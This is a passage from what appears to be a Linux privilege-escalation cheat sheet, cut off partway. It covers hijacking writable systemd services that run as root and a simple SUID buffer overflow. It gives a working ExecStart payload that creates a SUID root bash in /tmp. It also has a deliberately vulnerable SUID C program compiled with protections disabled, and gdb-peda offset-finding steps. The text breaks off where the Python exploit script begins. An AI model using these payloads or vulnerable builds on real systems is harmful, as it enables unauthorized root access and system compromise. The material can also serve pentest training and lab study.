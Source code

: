     # Examine the service file associated with a timer that runs as root
    systemctl cat <service_name>.service

    # Check permissions on the service file and the ExecStart script
    ls -l /etc/systemd/system/<service_name>.service
    ls -l /path/to/script
    ```
* **Exploit:** If the service file itself is writable, modify the `ExecStart=` line to execute your payload. If the script is writable, overwrite it.
    ```bash
    # Example of editing a writable service file
    # Change 'ExecStart=/usr/local/bin/backup.sh' to:
    ExecStart=/bin/bash -c "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
    ```

---

## ## 4. Advanced Binary & Memory Exploitation

Low-level techniques for when misconfigurations are not present.

### ### Simple Buffer Overflow in an SUID Binary
* **What it is:** A custom SUID binary has a buffer overflow vulnerability, allowing you to overwrite the instruction pointer (EIP) and redirect execution to your own shellcode. **Note: This requires a non-PIE binary and no stack canaries.**
* **Vulnerable C Code Example (`vuln.c`):**
    ```c
    #include <stdio.h>
    #include <string.h>

    int main(int argc, char** argv) {
        char buffer[200];
        strcpy(buffer, argv[1]);
        return 0;
    }
    ```
    *Compile with:* `gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c; sudo chown root:root vuln; sudo chmod u+s vuln`
* **Exploit Steps:**
    1.  **Find the Offset:** Use `gdb-peda` to find the exact number of bytes to overwrite EIP.
        ```bash
        gdb-peda ./vuln
        pattern create 300
        run <pattern>
        # Note the EIP value, then find the offset:
        pattern offset <EIP_value> 
        ```
    2.  **Craft the Payload:**
        ```python
        # exploit.py
        import struct
